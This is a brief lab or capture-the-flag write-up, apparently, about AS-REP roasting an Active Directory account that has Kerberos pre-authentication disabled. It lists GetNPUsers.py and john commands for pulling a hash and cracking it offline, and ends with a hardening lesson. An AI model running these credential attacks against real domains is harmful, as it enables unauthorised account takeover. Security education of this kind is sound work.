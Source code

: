 Category: Active Directory / Kerberos
Difficulty: Hard

Summary:The domain had Kerberos pre-auth disabled for one user, making it vulnerable to AS-REP roasting. Extracted the hash and cracked it offline.

Steps:
# Enumerate users
GetNPUsers.py domain.local/ -usersfile users.txt -dc-ip 10.10.10.10
# Found AS-REP hash
$krb5asrep$23$...
# Cracked it
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Lesson: Disable legacy settings like pre-auth exemption. Enforce modern authentication policies.
